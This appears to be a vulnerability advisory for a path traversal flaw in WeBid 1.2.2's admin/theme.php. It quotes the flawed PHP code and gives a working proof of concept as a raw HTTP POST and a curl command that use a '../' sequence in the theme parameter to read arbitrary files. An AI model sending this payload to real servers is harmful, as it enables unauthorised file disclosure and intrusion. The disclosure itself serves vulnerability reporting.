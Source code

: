 # A Path Traversal vulnerability in `file_get_contents` Function of `/admin/theme.php` File (WeBid 1.2.2 version)

## 0x01 Affected version

vendor: https://github.com/renlok/WeBid

version: <=1.2.2

php version: 7.x

## 0x02 Vulnerability description

A Path Traversal (CWE-22) in `admin/theme.php` file of WeBid allows remote attackers to uses external input from the `theme` parameter to construct a pathname that is intended to identify a file or directory that is located underneath a restricted parent directory. This allows you to read any file from any location on the operating system.

```php
if (isset($_POST['file']) && !empty($_POST['theme']))
{
	$theme_path = $theme_root . '/' . $_POST['theme'];
	if ($_POST['theme'] != 'CVS' && is_dir($theme_path) && substr($_POST['theme'], 0, 1) != '.')
	{
		$edit_file = true;
		$filename = $_POST['file'];
		$theme = $_POST['theme'];
		$filecontents = htmlentities(file_get_contents($theme_path . '/' . $filename));
	}
}
```

The vulnerable code snippet is shown above. Because the `theme` parameter is unrestricted, it is also possible to use the server side to get the file information of the corresponding directory, including the file content. The corresponding PoC is as follows:

```
POST /WeBid-1.2.1/admin/theme.php HTTP/1.1
Host: 172.16.119.146
Content-Length: 75
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=0me7tniqbqltu0jo622cl9jqe6
Connection: close

file=flag&theme=/../../../../../&csrftoken=f514194228c4c8561ccc9542abcf0289
```

You can also use the following curl command to verify the vulnerability

```
curl -i -s -k -X $'POST' \
    -H $'Host: 172.16.119.146' -H $'Content-Length: 75' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Connection: close' \
    -b $'PHPSESSID=0me7tniqbqltu0jo622cl9jqe6' \
    --data-binary $'file=flag&theme=/../../../../../&csrftoken=f514194228c4c8561ccc9542abcf0289' \
    $'http://172.16.119.146/WeBid-1.2.1/admin/theme.php'
```



![](./media/16638137590308/16638213883564.jpg)

### 0x03 Acknowledgement

z3